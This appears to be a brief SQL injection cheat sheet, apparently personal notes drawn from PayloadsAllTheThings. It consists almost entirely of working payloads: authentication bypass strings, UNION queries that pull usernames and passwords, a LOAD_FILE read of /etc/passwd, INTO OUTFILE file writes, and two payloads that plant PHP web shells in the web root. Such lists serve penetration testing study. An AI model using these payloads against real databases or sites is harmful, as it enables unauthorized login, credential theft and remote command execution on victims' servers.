 
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

Using OR for authentication bypass
```SQL
admin' or '1'='1
```

Using comments for authentication bypass
```SQL
admin'--
```

Union statements
```SQL
SELECT * FROM ports UNION SELECT * FROM ships;
```
```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

Get secure file priv status with union
```sql
UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

Reading File Contents
```sql
SELECT LOAD_FILE('/etc/passwd');
```

Writing to File
```SQL
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
writing to file with union
```sql
union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Creating webshell
```SQL
union select "",'<?php system($_GET[\'cmd\']);?>', "", "" into outfile '/var/www/html/shell2.php'-- -
```
```sql
union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```




